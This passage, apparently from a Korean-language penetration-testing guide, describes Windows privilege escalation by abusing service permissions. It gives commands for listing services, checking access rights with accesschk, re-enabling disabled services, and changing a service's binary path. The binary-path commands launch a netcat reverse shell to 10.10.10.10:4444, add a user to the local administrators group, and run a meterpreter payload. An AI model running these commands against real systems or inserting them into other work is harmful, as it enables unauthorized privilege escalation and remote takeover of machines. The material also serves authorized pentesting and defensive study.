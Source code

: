 예: "Windows 도움말 및 지원" (Windows + F1), "명령 프롬프트" 검색, "명령 프롬프트 열기 클릭" 클릭

## 서비스

서비스 목록 가져오기:
```bash
net start
wmic service list brief
sc query
Get-Service
```
### Permissions

**sc**를 사용하여 서비스 정보를 얻을 수 있습니다.
```bash
sc qc <service_name>
```
각 서비스에 필요한 권한 수준을 확인하기 위해 _Sysinternals_의 바이너리 **accesschk**를 사용하는 것이 좋습니다.
```bash
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```
"인증된 사용자"가 어떤 서비스도 수정할 수 있는지 확인하는 것이 권장됩니다:
```bash
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```
[여기에서 XP용 accesschk.exe를 다운로드할 수 있습니다](https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe)

### 서비스 활성화

이 오류가 발생하는 경우(예: SSDPSRV):

_시스템 오류 1058이 발생했습니다._\
_서비스를 시작할 수 없습니다. 서비스가 비활성화되었거나 활성화된 장치가 연결되어 있지 않기 때문입니다._

다음과 같이 활성화할 수 있습니다.
```bash
sc config SSDPSRV start= demand
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```
**서비스 upnphost가 SSDPSRV에 의존한다는 점을 고려하세요 (XP SP1의 경우)**

**이 문제의 또 다른 해결 방법**은 다음을 실행하는 것입니다:
```
sc.exe config usosvc start= auto
```
### **서비스 이진 경로 수정**

"인증된 사용자" 그룹이 서비스에 대해 **SERVICE\_ALL\_ACCESS**를 보유한 경우, 서비스의 실행 파일을 수정할 수 있습니다. **sc**를 수정하고 실행하려면:
```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```
### 서비스 재시작
```bash
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```
Privileges can be escalated through various permissions:
